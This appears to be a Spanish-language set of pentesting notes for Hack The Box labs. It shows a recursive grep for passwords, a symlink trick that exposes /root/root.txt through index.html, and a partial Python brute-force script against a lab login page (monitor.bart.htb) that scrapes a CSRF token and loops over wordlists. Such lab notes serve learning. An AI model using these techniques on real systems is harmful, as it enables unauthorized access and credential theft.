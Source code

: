 
Para ver los passwords en todos los archivos

```
grep -r "password" | less -S
```





## Enlace simbolico

Son como los accesos directos pero para linux existen otros enlaces aparte de los simbolicos los duros.

```
ln -s -f /root/root.txt index.html

ln: Es el comando para crear enlaces.
-s: Es la opción que indica que se debe crear un enlace simbólico.
-f: Es la opción que indica que, si ya existe un archivo llamado index.html, se debe sobrescribir sin preguntar.

```



## Brute Force Alternativa a cosas como Hydra

Esto es una alternativa a hydra para hacer brute force lo que si falta es ponerle hilos para que vaya mas rapido

```
#!/usr/bin/python3

import requests, pdb, sys, time, re, signal
import urllib3, threading


def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)


signal.signal(signal.SIGINT, def_handler)


url = 'http://monitor.bart.htb/index.php'
burp = { 'http': 'http://127.0.0.1:8080'}



def main():
	#time.sleep(10)
	s=requests.session()
	r = s.get(url)
	#print(r.text)
	csrfToken = re.findall(r'name="csrf" value="(.*?)"',r.text)[0]
	#pdb.set_trace()# l y p para ver valores.


	with open("user.txt", "rb") as users_file:
		usuarios = [linea.decode().strip() for linea in users_file]
	with open("passwords.txt", "rb") as passwords_file:
		contraseñas = [linea.decode().strip() for linea in passwords_file]
		for usuario in usuarios:
			for contraseña in contraseñas:
				#print(f"Probando: Usuario={usuario}, Contraseña={contraseña}")
```